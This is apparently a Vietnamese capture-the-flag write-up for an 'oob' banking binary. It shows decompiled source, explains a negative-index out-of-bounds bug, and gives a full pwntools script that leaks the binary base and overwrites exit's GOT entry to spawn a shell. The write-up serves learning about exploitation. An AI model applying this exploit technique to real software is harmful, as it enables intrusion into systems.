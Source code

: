 # out of bounds hay OOB
## 1. Source
```
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // ebx
  int v4; // [rsp+0h] [rbp-20h] BYREF
  int v5; // [rsp+4h] [rbp-1Ch] BYREF
  unsigned __int64 v6; // [rsp+8h] [rbp-18h]

  v6 = __readfsqword(0x28u);
  init(argc, argv, envp);
  puts("------ JHTBank ------");
  while ( 1 )
  {
    main_menu();
    __isoc99_scanf("%d", &v5);
    if ( v5 != 1 )
      break;
    printf("Index: ");
    __isoc99_scanf("%d", &v4);
    if ( v4 <= 9 )
    {
      account_menu();
      __isoc99_scanf("%d", &v5);
      if ( v5 == 4 || v5 == 3 || v5 == 2 )
      {
        if ( *((_QWORD *)&acc + 2 * v4) )
        {
          if ( v5 == 4 )
          {
            printf("Name: %s\n", *((const char **)&acc + 2 * v4));
            printf("Amount: %lu\n", qword_3608[2 * v4]);
          }
          else if ( v5 == 2 )
          {
            printf("Enter name: ");
            __isoc99_scanf("%80s", *((_QWORD *)&acc + 2 * v4));
          }
          else
          {
            printf("Enter amount: ");
            __isoc99_scanf("%lu", (char *)&acc + 16 * v4 + 8);
          }
        }
        else
        {
          puts("You didn't create this account!");
        }
      }
      else if ( v5 == 1 )
      {
        v3 = v4;
        *((_QWORD *)&acc + 2 * v3) = malloc(0x50uLL);
        printf("New name: ");
        __isoc99_scanf("%80s", *((_QWORD *)&acc + 2 * v4));
        printf("New amount: ");
        __isoc99_scanf("%lu", (char *)&acc + 16 * v4 + 8);
      }
      else
      {
        puts("Invalid choice!");
      }
    }
    else
    {
      puts("You can have maximum 10 accounts");
    }
  }
  exit(0);
}
```
## 2. Hướng giải
![Alt text](image-1.png)
![Alt text](image-2.png)
- Nhìn ảnh trên thì lỗi `OOB` nằm ở hàm if vì `v4` đc định dạng là 1 biến `int` thế cho nên ta có thể nhập vào giá trị âm và ta sẽ khai thác lỗi này.

![Alt text](image-3.png)
![Alt text](image-4.png)

- Với các option sau thì chức năng cơ bản của nó như sau:
  - option 1 là tạo acc mới dường như vô dụng ta sẽ ko khai thác đc gì ở đây
  - option 2 thay đổi tên acc
  - option 3 thay đổi giá trị tiền
  - option 4 là in ra dữ liệu có lẽ ta sẽ sử dụng option này để leak cái gì đấy thế nên ta vào debug xem nhé.

![Alt text](image-5.png)

- ta sẽ đặt breakpoint ở đây để khi nhập vào index ta có thể kiểm tra stack chính xác lỗi OOB diễn ra.

![Alt text](image/image-6.png)
![Alt text](image-7.png)
![Alt text](image-8.png)
- khi đến đoạn này nó sẽ gọi lên địa chỉ của 1 giá trị = `rax + rdx` khi search thử thì nó ra địa chỉ như ảnh sau.
![Alt text](image-9.png)
- Ta có thể thấy địa chỉ bắt đầu ở trên địa chỉ của `acc` , vậy là ta có thể leak đc các địa chỉ ở trên nữa để check xem phía trên có địa chỉ nào nữa ko nhé.
![Alt text](image-10.png)
![Alt text](image-11.png)
- Nhìn ảnh thì ta thấy có thể leak đc binary và các địa chỉ cả `GOT` và chương trình cho phép ta có thể `OW` đc got.
- Ở option 2 và 3 đều cho phép ta `OW` địa chỉ của `acc` và `amount`
nhưng sẽ có đôi chút khác biệt.
![Alt text](image-12.png)
- Như hình trên khi `change acc` thì nó sẻ khi vào con trỏ mà địa chỉ đó ko thể `W` đc nhưng còn `change money` thì nó lại trỏ đến stack và stack này lại trỏ đến 1 địa chỉ `GOT` thì ta chỉ xài `option 3` để khai thác bài này.

![Alt text](image-13.png)
- với script như này ta sẽ leak đc exe , tiếp theo ta chỉ cần `OW got` là đc.
![Alt text](image-14.png)
- ở vùng khoanh đỏ là các địa chỉ của `amount` với đuôi 8 thế thì ta thử check xem `GOT` nào chúng ta có thể `OW` đc.
![Alt text](image-15.png)
- Với các địa chỉ đc khoanh đỏ và có đuôi 8 ta có thể `OW` cac `GOT` sau thành `get_shell` , ta sẽ ưu tiên giữ `system` để nó có thể thực hiện `system(/bin/sh)` vậy thì ở đây tối ưu nhất là `exit`.
![Alt text](image-16.png)
- ta sẽ viết script như sau để `OW exit = get_shell`
- sau khi chạy thử thì đã thu đc shell.
![Alt text](image-17.png)
## 3. Script
```
#!/usr/bin/python3

from pwn import *

exe = ELF('oob', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b
                b*main+240
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('0', 0)
else:
        p = process(exe.path)

GDB()
###########################
###stage 1 : leak exe #####
###########################
sla(b'> ', b'1')
sla(b'Index: ', b'-5')
sla(b'> ', b'4')
p.recvuntil(b'Name: ')
exe_leak = u64(p.recvline()[:-1] + b'\0\0') #bởi vì địa chỉ nhận đc là dạng byte nên xài u64 chyển về số
exe.address = exe_leak - 0x35b0
info("Exe_leak: " + hex(exe_leak))
info("Exe_base: " + hex(exe.address))
#####################################
### Stage 2 : OW exit = get_shell ###
#####################################
sla(b'> ', b'1')
sla(b'Index: ', b'-9')
sla(b'> ', b'3')
sla(b'amount: ', str(exe.sym['get_shell']).encode()) # ở đây chúng ta sẽ nhập số ko phải nhập byte
                                                     #ta sẽ xài str để ép kiểu từ số về chữ và decode nó lại từ chuỗi thường sang byte

p.interactive()

```
